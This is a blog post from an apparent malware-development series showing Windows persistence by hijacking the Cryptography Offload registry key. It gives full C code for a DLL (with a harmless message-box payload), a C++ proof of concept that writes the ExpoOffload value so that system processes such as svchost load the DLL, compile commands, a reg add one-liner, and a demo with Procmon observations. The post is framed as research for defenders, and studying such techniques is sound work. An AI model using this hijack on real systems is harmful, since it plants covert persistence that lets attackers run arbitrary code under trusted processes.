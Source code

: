```yaml
---
title:  "Malware development: persistence - part 16. Cryptography Registry Keys. Simple C++ example."
date:   2022-10-21 03:00:00 +0300
header:
  teaser: "/assets/images/76/2022-10-21_05-25.png"
categories:
  - malware
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!     

![pers](/assets/images/76/2022-10-21_05-25.png){:class="img-responsive"}    

This article is the result of my own investigation into one of the interesting malware persistence trick: via Cryptography Registry Key.     

In the course of studying the registry, I came across an interesting path:     

`HKLM\Software\Microsoft\Cryptography\`     

And there is a such function `OffloadModExpo`. If I understand correctly, this function is used to perform all modular exponentiations for both public and private key operations:     

![pers](/assets/images/76/2022-10-21_05-45.png){:class="img-responsive"}    

I didn't go into too much detail, the very opportunity to experiment with this key and value in the Windows registry is enough for me. So, I tried to hijacking this DLL path:    

`HKLM\Software\Microsoft\Cryptography\Offload` and key value.    

### practical example

First of all, as usually, create "evil" DLL. As usually, just `meow-meow` messagebox (`hack.c`):    

```cpp
/*
hack.c - malicious DLL
DLL hijacking Cryptography registry path
author: @cocomelonc
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  ul_reason_for_call, LPVOID lpReserved) {
    switch (ul_reason_for_call)  {
    case DLL_PROCESS_ATTACH:
      MessageBox(
        NULL,
        "Meow-meow!",
        "=^..^=",
        MB_OK
      );
      break;
    case DLL_PROCESS_DETACH:
      break;
    case DLL_THREAD_ATTACH:
      break;
    case DLL_THREAD_DETACH:
      break;
    }
    return TRUE;
}
```

Compile it:    

```bash
x86_64-w64-mingw32-gcc -shared -o hack.dll hack.c
```

![pers](/assets/images/76/2022-10-21_05-20.png){:class="img-responsive"}    

And create Proof-of-Concept code for hijacking (`pers.cpp`):     

```cpp
/*
pers.cpp
windows persistence via
hijacking cryptography DLL path
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/10/21/malware-pers-16.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // reg path
  const char* path = "SOFTWARE\\Microsoft\\Cryptography\\Offload";

  // evil DLL
  const char* evil = "Z:\\2022-10-21-malware-pers-16\\hack.dll";

  // create key
  LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)path, 0, NULL, REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS, NULL, &hkey, 0);
  if (res == ERROR_SUCCESS) {
    // set registry key value
    // reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Cryptography\Offload" /v "ExpoOffload" /t REG_SZ /d "...\hack.dll" /f
    RegSetValueEx(hkey, (LPCSTR)"ExpoOffload", 0, REG_SZ, (unsigned char*)evil, strlen(evil));
    RegCloseKey(hkey);
  }

  return 0;
}
```

That's all I need for experiment.      

### demo

Let's go to see everything in action. Compile our Proof-of-Concept code:    

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/76/2022-10-21_05-21.png){:class="img-responsive"}    


Then, for the purity of experiment, check registry keys in the victim’s machine and delete keys if exists:    

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Cryptography\Offload" /s
```

![pers](/assets/images/76/2022-10-21_05-23.png){:class="img-responsive"}    

Then, run our `pers.exe` script and check again:     

![pers](/assets/images/76/2022-10-21_05-24.png){:class="img-responsive"}    

And now I'll try to run something. For example, I will try to open `https:\\...` link at the browser or use search bar.    

![pers](/assets/images/76/2022-10-21_05-25_1.png){:class="img-responsive"}    

In the course of performing some cryptographic operations at the background, we will see more and more popups.    

![pers](/assets/images/76/2022-10-21_05-27.png){:class="img-responsive"}    

![pers](/assets/images/76/2022-10-21_05-27_1.png){:class="img-responsive"}    

![pers](/assets/images/76/2022-10-21_05-28.png){:class="img-responsive"}    

Also I couldn't even run `Process Hacker 2` for investigation of the situation.     

![pers](/assets/images/76/2022-10-21_06-09.png){:class="img-responsive"}    

Then, restore my VM snapshot, run sysinternals `Procmon` with following filters:     

![pers](/assets/images/76/2022-10-21_06-20.png){:class="img-responsive"}    

![pers](/assets/images/76/2022-10-21_06-22.png){:class="img-responsive"}    

And as a result:     

![pers](/assets/images/76/2022-10-21_06-24.png){:class="img-responsive"}    

![pers](/assets/images/76/2022-10-21_06-25.png){:class="img-responsive"}    

As you can see at some stage my "evil" `meow-meow` DLL loaded by `svchost.exe`, `ProcessHacker.exe` and other processes.     

So, everything is worked correctly. Perfectly! =^..^=     

After end of experiments, restore my registry state:     

![pers](/assets/images/76/2022-10-21_05-33.png){:class="img-responsive"}    

I don't know if any APT in the wild used this tactic and trick, but, I hope this post spreads awareness to the blue teamers of this interesting technique especially when create software, and adds a weapon to the red teamers arsenal.    

> This is a practical case for educational purposes only.      

[OffloadModExpo](https://learn.microsoft.com/en-us/previous-versions/windows/desktop/legacy/aa387021(v=vs.85))     
[DLL hijacking](/pentest/2021/09/24/dll-hijacking-1.html)     
[DLL hijacking with exported functions](/pentest/2021/10/12/dll-hijacking-2.html)     
[source code in github](https://github.com/cocomelonc/meow/tree/master/2022-10-21-malware-pers-16)     

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
